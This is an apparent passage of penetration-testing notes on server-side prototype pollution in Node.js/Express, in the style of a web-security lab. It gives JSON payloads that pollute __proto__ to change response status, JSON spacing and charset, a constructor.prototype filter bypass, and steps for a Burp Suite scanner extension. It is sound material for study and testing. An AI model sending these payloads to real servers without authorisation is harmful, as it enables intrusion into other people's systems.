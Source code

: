 ```json
    "__proto__":{
        "status":555
    }
}
```
- JSON spaces override: The `json spaces` property on Express version <4.17.4. To be able to see the difference in space via the response `Raw`
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "__proto__":{
        "json spaces":10
    }
}
```
- Charset override: Use `content-type`
```json
Send UTF-7 data
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
Pollute the server and change content-type
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
Check if the payload is now being decoded as UTF-7
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```
## Scanning for server-side prototype pollution (SSPP) sources
Automation: Use the Burp Suite extension mentioned at the beginning of the documentation - Server-Side Prototype Pollution Scanner
1. Explore the website
2. Filter to show only in-scope items
3. Select them all. 
4. Right click and go to Extensions -> Server-Side Prototype Pollution Scanner -> Server-Side Prototype Pollution
5. Modify the attack configuration and click OK.
## Bypassing input filters for server-side prototype pollution
This can be bypassed in the same way that it was bypassed for Client-side Prototype Pollution (CSPP)
Example
```json
"constructor": {
    "prototype": {
        "json spaces":10
    }
}
```